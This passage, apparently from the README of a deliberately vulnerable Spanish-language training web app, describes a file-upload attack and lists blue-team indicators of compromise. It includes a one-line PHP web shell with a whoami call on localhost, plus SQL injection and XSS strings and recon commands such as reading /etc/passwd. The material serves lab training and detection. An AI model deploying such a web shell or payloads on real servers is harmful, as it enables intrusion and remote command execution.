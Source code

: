 ### 4. File Upload Vulnerable:
```bash
# Crear web shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php

# Subir archivo (sin restricciones)
# Acceder: http://localhost/static/uploads/shell.php?cmd=whoami
```

### 5. Information Disclosure:
```
URL: http://localhost/debug
Resultado: Información sensible del sistema
```

## 🛡️ Para el Equipo Blue Team

### Indicadores de Compromiso (IOCs):

1. **Patrones SQL Injection:**
   - `' OR 1=1 --`
   - `UNION SELECT`
   - `' AND 1=1 --`
   - Múltiples comillas simples en logs

2. **Patrones XSS:**
   - `<script>`
   - `javascript:`
   - `onerror=`
   - `<img src=x`

3. **File Upload Malicioso:**
   - Archivos `.php`, `.py`, `.sh`
   - Nombres sospechosos: `shell.php`, `backdoor.php`
   - Extensiones dobles: `.jpg.php`

4. **Comandos de Reconocimiento:**
   - `whoami`, `id`, `pwd`
   - `cat /etc/passwd`
   - `ps aux`, `netstat`

### Logs a Monitorizar:
```bash
# Log principal de la aplicación
tail -f ferreteria_juan.log

# Logs de MySQL (errores SQL)
tail -f /var/log/mysql/error.log

# Logs del sistema
tail -f /var/log/auth.log
tail -f /var/log/syslog
```
